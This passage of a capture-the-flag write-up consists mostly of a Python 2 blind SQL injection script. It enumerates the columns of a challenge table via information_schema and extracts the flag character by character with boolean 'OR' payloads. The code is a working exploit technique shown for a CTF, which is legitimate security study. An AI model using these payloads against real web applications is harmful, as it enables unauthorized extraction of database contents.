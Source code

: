 ```

	for i in xrange(50):
		payload = "ddog1223' or ((SELECT COUNT(*) from information_schema.columns WHERE table_name = 'fff1ag')="+str(i)+")#"

		if get_data(payload):
			print "[*] column_number: "+str(i)
			column_number = i
			break

	# tables_number=3

	for j in range(0,column_number):
		for i in xrange(50):
			payload = "ddog1223' or ((SELECT length(column_name) from information_schema.columns WHERE table_name = 'fff1ag' limit 1 offset "+str(j)+")="+str(i)+")#"

			if get_data(payload):
				print "[*] column_length: "+str(i)
				column_length = i
				break

		column = ""
		
		for i in range(1,column_length+1):
			for k in range(30,128):
				payload = "ddog1223' or (SELECT ascii(mid(((SELECT column_name from information_schema.columns WHERE table_name = 'fff1ag' limit 1 offset "+str(j)+"))from("+str(i)+")))="+str(k+1)+")#"

				if get_data(payload):
					column += chr(k+1)
					print "[*] column: "+column
					break

		print "[*] column: " + column


def get_flag(url):

	for i in xrange(50):
			payload = "ddog12s3' or ((SELECT length(thisi5f14g) from fff1ag limit 1)="+str(i)+")#"

			if get_data(payload):
				print "[*] content_length: "+str(i)
				content_length = i
				break

	content = ""
	
	for i in range(1,content_length+1):
		for k in range(30,128):
			payload = "ddog123s' or (SELECT ascii(mid(((SELECT thisi5f14g from fff1ag limit 1))from("+str(i)+")))="+str(k+1)+")#"

			# print payload
			if get_data(payload):
				content += chr(k+1)
				print "[*] content: "+content
				break

	print "[*] content: " + content

```

  [1]: http://static.zybuluo.com/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: http://static.zybuluo.com/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: http://static.zybuluo.com/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: http://static.zybuluo.com/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png